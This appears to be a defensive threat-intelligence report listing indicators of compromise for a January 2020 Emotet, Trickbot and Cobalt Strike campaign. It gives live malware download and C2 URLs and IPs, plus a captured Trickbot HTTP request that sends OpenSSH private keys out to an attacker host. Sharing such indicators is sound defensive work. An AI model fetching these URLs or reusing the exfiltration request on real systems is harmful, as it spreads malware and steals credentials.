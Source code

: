 # Threat Report: 2020-01-29: Emotet - Trickbot - CobaltStrike - gtag mor85


## Key Intelligence
* Date: 2020-01-29
* Threat Level: 3 (Low)
* Tags: trickbot, emotet:epoch="1", Cobalt Strike, PowerView, tlp:white

---

## Indicators of Compromise (IOCs)
### External analysis
* link: https://laskowski-tech.com/2020/01/29/is-that-really-your-av-company-trickbot-gtag-mor85/ — quick writeup

### Network activity
* url: http://107.175.116.133/images/lastimg.png — Trickbot modules
* url: http://107.175.116.133/images/mini.png — Trickbot modules
* ip-dst|port: 181.196.207.202|449 — trickbot c2
* text: ```
POST /mor85/$HOSTNAME_W10017763.17B12C3CA6F6245FD0479319017B8DF1/81/ HTTP/1.1

Accept: */*

Content-Type: multipart/form-data; boundary=---------XYYUIBBYFVTYXHJK

User-Agent: Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 10.0; Win64; x64; Trident/7.0; .NET4.0C; .NET4.0E)

Host: 203.176.135.102:8082

Content-Length: 210

Connection: Close

Cache-Control: no-cache



-----------XYYUIBBYFVTYXHJK

Content-Disposition: form-data; name="data"






-----------XYYUIBBYFVTYXHJK

Content-Disposition: form-data; name="source"



OpenSSH private keys

-----------XYYUIBBYFVTYXHJK--
``` — Trickbot looking to exfil SSH keys
* ip-dst|port: 203.176.135.102|8082 — Trickbot Exfil On port 8082

### Payload delivery
* url: http://1.magnoec.com/r2v5r/closed_CPo2hqV_9LuHqppjuXGHoSN/870323622452_ABzYhbO_portal/82h8i4qo61essf_4tu0x/ — emotet maldoc download link

## Objects
### url — url object describes an url along with its normalized field (like extracted using faup parsing library) and its metadata.
* [Network activity] url: https://sophosdefence.com:80/agergbvafdsvgbrt
* [Other] text: Cobalt Strike C2 delivered by trickbot
* [Network activity] ip-dst: 149.248.5.240
* [Network activity] domain: sophosdefence.com

### url — url object describes an url along with its normalized field (like extracted using faup parsing library) and its metadata.
* [Network activity] url: https://qwe4dse4.com/hcxUr9dg.ps1
* [Network activity] ip-dst: 45.32.211.239
* [Network activity] domain: qwe4dse4.com
